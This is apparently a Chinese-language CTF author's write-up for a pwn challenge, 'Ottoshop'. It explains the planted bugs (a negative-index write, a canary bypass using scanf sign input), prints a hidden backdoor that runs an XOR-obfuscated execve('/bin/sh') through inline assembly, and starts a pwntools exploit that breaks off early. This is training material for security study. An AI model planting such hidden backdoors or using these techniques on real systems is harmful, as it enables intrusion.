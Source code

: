 ## Ottoshop ♿

最开始的想法是想些办法做一个迁移 + 绕 canary , 但是实际上做起来发现好像思考成本有点过高了, 想这么结合做个签到题也不现实, 于是我想了想, 把迁移这个点丢了吧, 换了一个更简单的下标越界.

但是下标越界高低得有个载体, 然后就不知道怎么想到的写个菜单的形式了.

于是我把洞按照菜单的逻辑放在了 2 个地方, 一个是在购买的时候检查不严密, 写负数下标即可低地址修改全局变量, 修改 money 这个值, 一个是输入 666 之后会开放购买 golden ♿ , 这里面会允许溢出, 但是开了 canary , scanf输入正负号绕过即可修改返回地址.

那这样大体逻辑就差不多了, 但是只放这么一点东西是不是又有点过于签到了呢 😄

于是开始塞 shit , 大概塞了这么几个 shit :

+ 写了一堆狗屎函数, 大概是 100 个, 其中夹杂了一个真的后门函数, 目的就是不让你轻易找到那个后门（

+ 后门函数是 `execve("/bin/sh")` , 但是我又不能让你直接在 got 表里面看到后门, 于是改成内联汇编的形式, 采用系统调用的形式来做后门, 然后为了防止找到 `/bin/sh` 👴还加了个异或加密, 源码大概长这样:

  ```c
  void o77oOtTo0T70()
  {
      char *a = flag2;
      if (strcmp(a, "otto") == 0) {
          for(int i = 0;flag1[i];i++)
              flag1[i]^=0xff;
          asm volatile(
              "mov %rsi,0\n"
              "mov %rdx,0\n"
              "lea %rax,flag1\n"
              "mov %rdi,%rax\n"
              "mov %rax,59\n"
              "syscall\n"
          );
      }
  }
  ```

+ 然后还在 666 的那个分支那里放了个假的后门, 一个溢出, 但是不给你 canary 估计你也没得用 😄

于是一个塞了 shit 的签到题就出来了, 考点就是 scanf 的 trick 和下标越界.

---

说下做法, 找后门函数这一块我的预期是你要是有办法就快速找一下, 比如说你可以 CTRL + s 去 data 段里面能看到个 flag1 , 然后交叉引用一下立马就能找到后门函数, 如果你没这样也无所谓, 就 100 个垃圾函数, 翻就完了（

找到后门看到个 execve 的系统调用, 调一下就知道是 shell , 然后如我上面所说, 下标改 money 改 otto , 然后进到 666 分支, 再转回 golden 直接覆盖返回地址即可.

exp:

```py
from pwn import *
#from LibcSearcher import *
context(arch='amd64',os='linux')
#context(log_level='debug')
#r=process("./ottoshop")
r=remote("0.0.0.0",58496)
elf=ELF("./ottoshop")
#libc=ELF("./libc-2.27.so")

def debug():
    gdb.attach(r)
    pause()
#debug()
bkdoor = 0x4020a4

def buy(idx,name):
    r.sendline("1")
```
